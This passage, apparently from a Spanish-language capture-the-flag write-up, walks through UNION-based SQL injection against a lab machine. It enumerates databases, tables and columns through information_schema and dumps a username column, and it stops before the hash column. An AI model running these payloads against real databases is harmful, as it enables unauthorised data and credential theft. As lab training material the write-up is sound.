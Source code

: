 ```bash
'union select "pan"-- -
```
{: .nolineno}



![unionselect](/validation/unionselect.png)



Ahora se ejecuta una consulta para identificar qué bases de datos se encuentran dentro del sistema.


```bash
'union select schema_name from information_schema.schemata-- -
```
{: .nolineno}

La única base de datos llamativa parece ser la denominada "registration".

![dbs](/validation/dbs.png)

Ahora se procede a identificar qué tablas contiene la base de datos.

```bash
'union select table_name from information_schema.tables where table_schema='registration'-- -
```
{: .nolineno}

Se observa que solo existe una única tabla, la cual también lleva por nombre "registration".

![tables](/validation/tables.png)


Ahora se desea revisar qué columnas se encuentran dentro de la tabla.

```bash
'union select column_name from information_schema.columns where table_schema='registration' and table_name='registration'-- - 
```
{: .nolineno}

Las columnas identificadas son las siguientes:

![columns](/validation/columns.png)

Ahora se procede a revisar la información de cada columna, empezando por la columna "username".

```bash
' union select username from registration.registration-- -
```
{: .nolineno}

Sin embargo, en esta columna solo se visualiza el nombre del usuario que hemos creado.


![username](/validation/username.png)

A continuación, se examina el contenido de la columna "userhash".

